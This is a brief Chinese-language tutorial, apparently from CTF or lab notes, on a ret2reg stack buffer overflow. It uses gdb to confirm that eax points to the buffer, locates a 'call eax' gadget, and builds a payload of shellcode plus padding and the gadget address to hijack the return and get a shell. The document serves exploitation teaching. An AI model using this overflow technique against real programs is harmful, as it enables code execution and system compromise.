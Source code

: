 这时我们就可以向buffer中写入shellcode，并且找到call eax指令地址来覆盖ret，从而拿到shell

这时我们需要查看evilfunction函数返回时，eax是不是还指向缓冲区地址

使用gdb进行调试带参数的程序

```C
gdb --args ret2reg 123123
b *0x0804842B
r
```

  
![[Pasted image 20240918013623.png]]

- 可见eax的值仍为缓冲区的地址
    
- 接下来查找call eax或者jmp eax指令
    

```C
 8048373:        ff d0                        call   *%eax
```

  

payload

```C
payload = shellcode + (0x208 + 4 - len(shellcode)) * a + p32(0x8048373)
```